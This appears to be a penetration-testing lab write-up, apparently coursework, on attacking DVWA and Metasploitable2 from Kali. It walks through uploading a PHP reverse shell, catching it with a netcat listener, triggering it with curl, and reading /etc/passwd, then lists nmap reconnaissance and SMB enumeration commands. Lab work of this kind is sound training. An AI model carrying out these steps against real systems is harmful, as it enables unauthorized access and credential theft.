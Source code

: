    - Scan the network for HTTP services on common web ports (80 and 443) to locate DVWA.
   - Command example: `nmap -p 80,443 --open 192.168.1.0/24`
   - Verify DVWA by browsing to the login page (e.g., http://<TARGET_IP>/login.php).

3. **Target Identification**

   - Run an nmap scan against the identified DVWA host to confirm open ports and running services.
   - Example command: `nmap -sV 10.30.0.235`
   - Note the web server and PHP version for potential vulnerabilities.

4. **Payload Creation and Upload**

   - Copy the provided KALI webshell (php-revers-shell.php), modify it by replacing the target machine IP and setting your KALI IP.
   - Log in to DVWA, navigate to the file upload section, and upload the modified php-revers-shell.php.
   - Ensure the upload is successful and the file is accessible via the web.

5. **Listener Setup on KALI**

   - On the KALI host, open a netcat listener on port 4444 using:  
     `nc -lvp 4444`
   - Prepare to receive the reverse shell connection from the DVWA host.

6. **Execution Trigger**

   - Access the uploaded PHP file from a browser or via curl to trigger the reverse shell.
   - Example: `curl http://10.30.0.235/upload/shell.php`
   - Check the netcat listener for an incoming shell connection.
   - If the connection is successful, you should see a shell prompt in the netcat listener.

7. **Post-Exploitation (Screenshots and Verification)**
   - Once the reverse shell connects, capture screenshots of the terminal showing a successful shell.
   - Document any banner or system information for further pivoting.
   - Example commands to run after gaining shell access:
     - `whoami` - to check the current user.
     - `uname -a` - to get system information.
     - `cat /etc/passwd` - to view the password file (if permission allows).

---

# Nmap Information Gathering Attack - Mohammad

## Program

Kali Linux as attacking machine; Metasploitable2 as vulnerable target; Nmap for reconnaissance and vulnerability assessment.

## Command

- Network discovery: Identify specific target hosts
  Command: `nmap 10.30.0.235 10.30.0.236 10.30.0.237`
- Ping sweep: Quick target host discovery
  Command: `nmap -sn 10.30.0.235 10.30.0.236 10.30.0.237`
- Port scanning: Identify open services on specific ports
  Command: `nmap -p 1-1024,3000-4000 10.30.0.235 10.30.0.236 10.30.0.237`
- Service version detection: Fingerprint running services
  Command: `nmap -sV -p 1-1024,3000-4000 -T4 10.30.0.235 10.30.0.236 10.30.0.237`
- OS detection: Identify target operating system
  Command: `sudo nmap -O -p 1-1024,3000-4000 10.30.0.235 10.30.0.236 10.30.0.237`
- Vulnerability scanning: Check for known vulnerabilities
  Command: `sudo nmap --script vuln -p 1-1024,3000-4000 10.30.0.235 10.30.0.236 10.30.0.237`
- SMB enumeration: Gather SMB service information
  Command: `nmap --script smb-enum-shares,smb-enum-users -p 139,445 10.30.0.235 10.30.0.236 10.30.0.237`
